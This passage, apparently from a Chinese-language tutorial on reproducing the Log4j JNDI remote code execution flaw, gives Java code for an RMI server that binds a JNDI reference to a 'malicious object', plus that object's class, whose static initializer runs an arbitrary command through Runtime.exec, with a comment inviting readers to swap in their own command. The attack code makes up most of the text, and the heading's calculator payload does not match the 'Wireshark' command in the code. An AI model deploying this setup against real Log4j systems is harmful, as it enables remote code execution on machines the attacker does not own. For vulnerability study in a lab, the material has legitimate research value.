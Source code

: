 ### 4.搭建RMI（Remote Method Invoke）服务

因为RMI比较容易搭建环境



#### 4.1 搭建 RMI 服务端，包含需要执行的恶意代码

RMI 服务端搭建，监听本地 8888（自定义）端口，用 Reference 类引用恶意对象

RMIServer.java

```java
package cn.xps.www;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(8888);
        System.out.println("Create RMI registry on port 8888");
        Reference reference = new Reference("cn.xps.www.Log4jRCE", "cn.xps.www.Log4jRCE", null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("exp", referenceWrapper);
    }
}

```



这里java8和以上是有区别的，可以看这篇文章：

https://segmentfault.com/a/1190000041102850

https://segmentfault.com/q/1010000041102656



#### 4.2 恶意对象模拟执行 cmd 打开计算器，并且输出一个语句用于标记执行处:

Log4jRCE.java

```java
package cn.xps.www;

public class Log4jRCE {
    static {
        try {
            System.out.println("exec in here");
            String [] cmd={"Wireshark"};  //命令自己修改
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
